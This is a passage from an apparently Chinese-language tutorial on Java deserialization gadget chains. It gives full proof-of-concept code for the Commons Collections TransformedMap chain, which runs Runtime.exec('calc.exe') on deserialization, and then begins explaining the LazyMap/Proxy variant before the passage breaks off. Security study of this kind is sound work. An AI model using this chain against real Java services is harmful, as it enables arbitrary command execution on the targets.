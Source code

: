 ```java
        public static void main(String[] args) throws Exception {
                Transformer[] transformers = new Transformer[] {
                        new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[] { String.class,Class[].class }, new Object[] { "getRuntime",new Class[0] }),
                        new InvokerTransformer("invoke", new Class[] { Object.class,Object[].class }, new Object[] { null, new Object[0] }),
                        new InvokerTransformer("exec", new Class[] { String.class },
                                new String[] {"calc.exe" }),
                };
                Transformer transformerChain = new ChainedTransformer(transformers);
                Map innerMap = new HashMap();
                innerMap.put("value","buruheshen");
                Map outerMap = TransformedMap.decorate(innerMap, null,transformerChain);
                Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
                Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
                construct.setAccessible(true);
                Object obj = construct.newInstance(Retention.class, outerMap);

                ByteArrayOutputStream barr = new ByteArrayOutputStream();
                ObjectOutputStream oos = new ObjectOutputStream(barr);
                oos.writeObject(obj);
                oos.close();

                ObjectInputStream ois = new ObjectInputStream(new
                        ByteArrayInputStream(barr.toByteArray()));
                Object o = (Object)ois.readObject();
        }
}

```



下面是测试图：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221118220422652.png)

## $LazyMap$反序列化链

上述反序列化链是由TransformMap搭配AnnotationInvocationHandler的readObject修改Map触发，其中最后一步就是setValue。不通过setValue触发也是可以的捏。

LazyMap.decorate绑定的Map，在get找不到值时会触发transform。AnnotationInvocationHandler有setValue但是没有get方法，不过该类下的invoke方法有get调用。用到`java.reflect.Proxy`触发Invoke。而触发的具体原理可以参考：`https://www.jianshu.com/p/774c65290218`。理解不了也没事，只需要知道Proxy代理能触发重写的InvocationHandler。

 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221119120313598.png)

LazyMap的CC链反序列化流程：

1. transfromChain的链一样，绑定到lazyMap上。
